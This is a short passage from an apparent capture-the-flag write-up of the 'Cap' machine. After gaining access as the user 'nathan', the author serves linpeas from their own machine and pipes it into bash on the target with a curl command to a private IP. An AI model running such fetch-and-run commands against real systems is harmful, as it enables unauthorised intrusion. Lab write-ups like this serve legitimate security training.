 <img src="/img/cap_screenshots/Pasted image 20241105213046.png" alt="1" style="width:700px; height:auto;">
<br/>

We are inside as the `nathan` user.  

We open a python server on our machine to be able to transfer `linpeas` on the remote machine and run it.  

```bash
curl http://10.10.16.5:8000/linpeas.sh  | bash
```

We get a hit.   

 <br/> 
<img src="/img/cap_screenshots/Pasted image 20241105214037.png" alt="1" style="width:700px; height:auto;">
<br/>
